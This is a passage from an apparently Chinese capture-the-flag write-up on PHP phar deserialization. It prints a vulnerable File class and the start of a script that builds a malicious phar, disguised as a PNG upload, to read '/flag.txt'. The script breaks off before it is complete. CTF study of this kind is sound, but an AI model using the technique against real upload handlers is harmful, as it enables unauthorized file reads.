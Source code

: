```php

class File {
    public $filename;

    public function open($filename) {
        $this->filename = $filename;
        if (file_exists($filename) && !is_dir($filename)) {
            return true;
        } else {
            return false;
        }
    }

    public function name() {
        return basename($this->filename);
    }

    public function size() {
        $size = filesize($this->filename);
        $units = array(' B', ' KB', ' MB', ' GB', ' TB');
        for ($i = 0; $size >= 1024 && $i < 4; $i++) $size /= 1024;
        return round($size, 2).$units[$i];
    }

    public function detele() {
        unlink($this->filename);
    }

    public function close() {
        return file_get_contents($this->filename);
    }
}
?>
```

注意到File类中的close方法执行时会获得文件的内容，如果能触发该方法，就有机会得到flag。

运行如下PHP文件，生成一个phar文件，更改后缀名为png进行上传。
（具体原理见下文的原理分析）
```php
<?php

class User {
    public $db;
}

class File {
    public $filename;
}
class FileList {
    private $files;
    private $results;
    private $funcs;

    public function __construct() {
        $file = new File();
        $file->filename = '/flag.txt';
        $this->files = array($file);
        $this->results = array();
        $this->funcs = array();
    }
}

@unlink("phar.phar");
```